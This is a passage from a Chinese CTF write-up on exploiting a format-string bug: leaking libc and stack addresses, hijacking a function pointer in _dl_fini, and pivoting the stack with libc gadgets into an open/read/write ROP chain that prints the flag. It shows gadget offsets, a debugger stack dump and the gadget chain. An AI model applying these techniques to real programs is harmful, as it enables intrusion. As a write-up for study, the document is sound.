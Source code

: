 虽然开了随机化，但是试了几次，这个函数指针和`libc`之间的偏移量是不变的，因此可以利用（感觉这个`_dl_fini`里的函数指针和`__libc_csu_fini`里面的指针差不多......）

本来想着用`one_gadget`一波带走这题，但想要执行`exit(0)`必须先退出`  while(read(0, &format, 0x100uLL))`这个循环，有两种方法可以退出循环：

- 关闭`stdin`：`p.stdin.close()`（适用于本地调试，打远程不行）
- 中断输入：`p.shutdown('send')` [ref](https://blog.csdn.net/Breeze_CAT/article/details/100087036)

不管用哪种方法，都没法继续向程序发送数据了，因此即使拿到`shell`也没用

于是，考虑构造`ROP`链，先`open /flag`再`read`+`write`把flag打印出来

跟进`_dl_fini`里面调用的那个函数，看下栈分布情况：

```shell
00:0000│ rsp  0x7ffe203411b8 —▸ 0x7effca8f7b44 (_dl_fini+132) 
01:0008│      0x7ffe203411c0 —▸ 0x7ffe203413d0 
02:0010│      0x7ffe203411c8 ◂— 0x3000000010
03:0018│      0x7ffe203411d0 —▸ 0x7ffe203412a0 ◂— 0x0
04:0020│      0x7ffe203411d8 —▸ 0x7ffe203411e0 ◂— 0x26 /* '&' */
05:0028│      0x7ffe203411e0 ◂— 0x26 /* '&' */
06:0030│      0x7ffe203411e8 —▸ 0x7ffe20341310 ◂— 0x0
07:0038│      0x7ffe203411f0 —▸ 0x7ffe203412b0 ◂— 'hhhhhhhh'
```

发现通过`read()`读的数据，与当前`rsp`离得并不远，于是可以把栈迁移到可控的区域：

需要用到两个`gadget`：

```
p6r   = 0x0013cc0f + libc_base
prsp  = 0x0000000000003838 + libc_base # pop rsp ; ret
```

第一个`gadget`把多余的6个参数`pop`掉，然后第二个`gadget`直接`pop rsp`把栈迁移到`read`读的`buf`

> P.s. libc中真是什么gadget都有鸭~太方便了！

这两个`libc`中的`gadget`需要通过格式字符串漏洞写到栈中（栈中位置也是相对固定的）

此前，还需要用格式化字符串漏洞泄漏下libc和栈地址：

- `libc`直接泄漏`libc_start_main_ret`
- 栈的话随便找一个就行...

完成栈迁移的`gadget`链如下：

```assembly
  0x7efe86626c0f <__nscd_getpwnam_r+63>    pop    rcx <0x7efe86ada040>
  0x7efe86626c10 <__nscd_getpwnam_r+64>    pop    rbx
  0x7efe86626c11 <__nscd_getpwnam_r+65>    pop    rbp
  0x7efe86626c12 <__nscd_getpwnam_r+66>    pop    r12
  0x7efe86626c14 <__nscd_getpwnam_r+68>    pop    r13
  0x7efe86626c16 <__nscd_getpwnam_r+70>    pop    r14
  0x7efe86626c18 <__nscd_getpwnam_r+72>    ret    
   ↓
  0x7efe864ed838                           pop    rsp
  0x7efe864ed839                           ret    
   ↓
  0x7efe8651d544 <__gettextparse+1140>     pop    rax ; read buf data
  0x7efe8651d545 <__gettextparse+1141>     ret    
```
